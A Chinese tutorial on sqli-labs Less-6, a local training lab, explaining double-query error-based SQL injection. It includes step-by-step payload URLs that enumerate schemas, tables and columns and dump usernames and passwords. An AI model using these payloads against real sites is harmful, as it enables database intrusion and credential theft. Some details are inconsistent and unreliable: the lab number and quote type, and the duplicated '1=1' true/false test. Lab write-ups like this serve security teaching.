

## 练习开始


首先打开http://127.0.0.1/Less-6/?id=1


less-5是基于错误的GET双引号变形字符型注入，位置在where之后且后跟limit


`
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo "<font size='5' color= '#99FF00'>";
  	echo 'Your Login name:'. $row['username'];
  	echo "<br>";
  	echo 'Your Password:' .$row['password'];
  	echo "</font>";
  	}
`


和之前Less-5的区别在于由单引号改成了双引号

测试用的payload
```
" and 1=1 %23 返回正确
" and 1=1 %23 返回错误

```

**%23和--+等价**


针对该题可以用盲注的方式搞定，根据本题标题，双注入 还是用显错式的方式


最常见的查询方式是
`
select count(*), concat('~',(select user()),'~', floor(rand()*2))as a from users group by a;
`

派生表的查询方式
`
select 1 from (select count(*), concat('~',(select user()),'~', floor(rand()*2)) as a from information_schema.tables group by a)x;
`


## 手工注入

###获取当前数据库

`
http://127.0.0.1/Less-6/?id=1"
`


看到语句出错，因为双注入查询利用的就是**print_r(mysql_error());**回显错误信息

获取当前数据库版本
`
http://127.0.0.1/Less-6/?id=1" union select 1, count(*), concat('~',(select version()),'~', floor(rand()*2)) as a from users group by a --+
`


获取当前用户
`
http://127.0.0.1/Less-6/?id=1" union select 1, count(*), concat('~',(select user()),'~', floor(rand()*2)) as a from users group by a --+
`


### 判断当前数据库数量


`
http://127.0.0.1/Less-6/?id=" union select 123, count(*), concat('~',(select count(*) from information_schema.schemata),'~', floor(rand()*2)) as a from information_schema.tables group by a --+
`

一共五个数据库

判断第一个数据库
`
http://127.0.0.1/Less-6/?id=" union select 123, count(*), concat('~',(select schema_name from information_schema.schemata limit 1,1),'~', floor(rand()*2)) as a from information_schema.tables group by a --+
`

通过修改limit之后的第一个参数逐步遍历数据库


### 检查security数据库的表


`
http://127.0.0.1/Less-6/?id=" union select 123, count(*), concat('~',(select count(*) from information_schema.tables where table_schema="security" ),'~', floor(rand()*2)) as a from information_schema.tables group by a --+
`


可以知道security有四个表


通过修改limit之后的第一个参数逐步遍历数据库的表
`
http://127.0.0.1/Less-5/?id=' union select 123, count(*), concat('~',(select table_name from information_schema.tables where table_schema="security" limit 0,1 ),'~', floor(rand()*2)) as a from information_schema.tables group by a --+
`


### 检查security数据库中user表的列

判断列的数量
`
http://127.0.0.1/Less-6/?id=" union select 123, count(*), concat('~',(select count(*) from information_schema.columns where table_schema='security' and table_name="users"),'~', floor(rand()*2)) as a from information_schema.tables group by a --+

`


检查列的内容
`
http://127.0.0.1/Less-6/?id=" union select 123, count(*), concat('~',(select column_name from information_schema.columns where table_schema='security' and table_name="users" limit 1,1),'~', floor(rand()*2)) as a from information_schema.tables group by a --+

`


### 爆出数据

`
http://127.0.0.1/Less-6/?id=" union select 123, count(*), concat('~',(select concat_ws(":",username,password) from users limit 1,1),'~', floor(rand()*2)) as a from information_schema.tables group by a --+
`


双注入的原理解释
[链接一](http://www.myhack58.com/Article/html/3/7/2016/73471.htm)
[链接二](https://www.cnblogs.com/dplearning/p/7355595.html)


